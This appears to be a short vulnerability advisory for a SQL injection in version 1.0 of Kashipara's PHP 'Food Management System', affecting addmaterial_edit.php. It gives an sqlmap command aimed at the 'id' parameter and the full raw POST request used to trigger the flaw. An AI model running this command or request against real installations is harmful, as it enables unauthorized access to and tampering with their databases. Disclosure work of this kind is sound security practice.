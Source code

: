  Food Management System SQL Injection Vulnerability 
 Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: www.kashipara.com/ 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

 Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\addmaterial_edit.php 

![img](https://cdn-images-1.medium.com/max/900/1*mLUQ1LHYMFo-1OjWbX-xUg.png)

 An attack can construct malicious input to inject arbitrary SQL statements and perform unauthorize actions. 

 SQLmap： 

![img](https://cdn-images-1.medium.com/max/900/1*EgkZVXntBPABsliqygy1uQ.png)

 SQLMAP command: 
 python sqlmap.py -r 1.txt -p id --level 5 --risk 3 

 Complete data package: 

```shell
POST /chopstic1/addmaterial_edit.php HTTP/1.1
Host: localhost
Content-Length: 22
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/chopstic1/addmaterial.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

id=1&action=deleteItem
```

